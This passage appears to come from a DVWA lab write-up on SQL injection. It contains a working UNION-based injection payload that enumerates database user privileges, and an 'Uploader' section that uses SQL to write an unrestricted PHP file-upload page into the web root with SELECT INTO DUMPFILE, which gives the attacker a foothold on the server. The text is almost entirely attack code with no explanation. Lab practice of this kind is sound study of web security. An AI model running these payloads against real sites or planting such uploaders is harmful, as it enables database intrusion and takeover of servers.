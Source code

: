 ```sql
' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'SELECT' OR PRIVILEGE_TYPE LIKE 'INSERT' OR PRIVILEGE_TYPE LIKE 'UPDATE' OR PRIVILEGE_TYPE LIKE 'DELETE' OR PRIVILEGE_TYPE LIKE 'DROP' AND GRANTEE LIKE "'dvwa'%"#
```

##### 4.2.5.2.2 - Uploader

```sql
CREATE TABLE `dvwa`.`user_upload`(
`column_1` VARCHAR(1000) NOT NULL
) ENGINE = MYISAM;

INSERT INTO user_upload values('<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>File Upload</title>
    </head>
    <body>
        <h2>File Upload</h2>
        <form action="<?php echo $_SERVER["PHP_SELF"]; ?>" method="POST" enctype="multipart/form-data">
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" value="Upload" name="submit">
        </form>

        <?php
        if (isset($_POST["submit"])) {
            if (!empty($_FILES["fileToUpload"]["name"])) {
                $targetDir = "./"; // Upload to the same directory as the PHP script
                $targetFile = $targetDir . basename($_FILES["fileToUpload"]["name"]);

                if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $targetFile)) {
                    echo "File uploaded successfully.";
                } else {
                    echo "Sorry, there was an error uploading your file.";
                }
            } else {
                echo "Please choose a file to upload.";
            }
        }
        ?>
    </body>
</html>')

SELECT * INTO DUMPFILE '/var/www/html/dvwa/uploader.php' FROM user_upload;
```

---
## References
